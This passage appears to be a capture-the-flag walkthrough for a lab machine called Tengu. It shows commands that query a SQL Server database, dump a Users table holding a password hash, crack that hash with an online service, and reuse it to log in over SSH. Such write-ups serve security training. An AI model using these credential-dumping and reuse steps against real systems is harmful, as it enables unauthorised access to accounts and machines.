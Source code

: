 ```

model                    0   

msdb                     1   

Demo                     0   

Dev                      0   

SQL (nodered_connector  nodered_connector@Dev)> use demo;
ENVCHANGE(DATABASE): Old Value: Dev, New Value: Demo
INFO(SQL): Line 1: Changed database context to 'Demo'.

```

It contains `users` tables with user credentials
```
SQL (nodered_connector  nodered_connector@Demo)> SELECT * FROM information_schema.tables
TABLE_CATALOG   TABLE_SCHEMA   TABLE_NAME   TABLE_TYPE   
-------------   ------------   ----------   ----------   
Demo            dbo            Users        b'BASE TABLE'   

SQL (nodered_connector  nodered_connector@Demo)> select * from demo.dbo.users;
  ID   Username          Password                                                              
----   ---------------   -------------------------------------------------------------------   
NULL   b't2_m.winters'   b'<REDACTED>'
```

[Crackstaion](https://crackstation.net/) 

![](5.png)

Now we can connect via `ssh`
```
└─$ sshpass -p '<REDACTED>' ssh 't2_m.winters@tengu.vl'@10.10.157.39

Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-97-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

t2_m.winters@tengu.vl@nodered:~$ 

```
## SQL.tengu.vl